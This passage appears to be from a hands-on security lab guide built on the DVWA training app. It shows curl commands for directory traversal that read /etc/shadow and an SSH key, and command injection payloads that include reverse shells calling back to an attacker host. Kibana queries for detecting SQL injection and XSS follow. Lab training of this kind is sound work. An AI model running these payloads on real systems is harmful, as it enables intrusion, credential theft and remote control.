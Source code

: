 #### Directory Traversal
```bash
# Access sensitive files
curl "http://10.0.2.101/dvwa/vulnerabilities/fi/?page=../../../../etc/shadow" \
  -H "Cookie: PHPSESSID=abc123; security=low"

curl "http://10.0.2.101/dvwa/vulnerabilities/fi/?page=../../../../home/vulnerable/.ssh/id_rsa" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```

### Phase 6: Command Injection (30 minutes)

#### OS Command Injection
```bash
# Basic command injection
curl "http://10.0.2.101/dvwa/vulnerabilities/exec/?ip=127.0.0.1;whoami&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Command injection with output redirection
curl "http://10.0.2.101/dvwa/vulnerabilities/exec/?ip=127.0.0.1;cat /etc/passwd&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Reverse shell via command injection
curl "http://10.0.2.101/dvwa/vulnerabilities/exec/?ip=127.0.0.1;nc -e /bin/bash 10.0.2.15 4444&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low"

# Alternative reverse shell
curl "http://10.0.2.101/dvwa/vulnerabilities/exec/?ip=127.0.0.1;bash -i >& /dev/tcp/10.0.2.15/4444 0>&1&Submit=Submit" \
  -H "Cookie: PHPSESSID=abc123; security=low"
```

## SOC Analysis Tasks

### Task 1: Web Attack Detection (60 minutes)

#### SQL Injection Detection
```bash
# Kibana queries for SQL injection
http.request.body.content:*UNION* OR http.request.body.content:*SELECT* OR uri:*UNION* OR uri:*SELECT*

# Common SQL injection patterns
uri:*%27* OR uri:*%22* OR uri:*OR%201=1* OR uri:*UNION%20SELECT*

# Time-based SQL injection detection
response_time:>5000 AND (uri:*SLEEP* OR uri:*WAITFOR* OR uri:*BENCHMARK*)
```

#### XSS Attack Detection
```bash
# XSS payload detection
uri:*<script* OR uri:*javascript:* OR uri:*onerror* OR uri:*onload*

# Encoded XSS detection
uri:*%3Cscript* OR uri:*%3C%2Fscript* OR uri:*&lt;script*

# XSS in POST data
http.request.body.content:*<script* OR http.request.body.content:*javascript:*
```
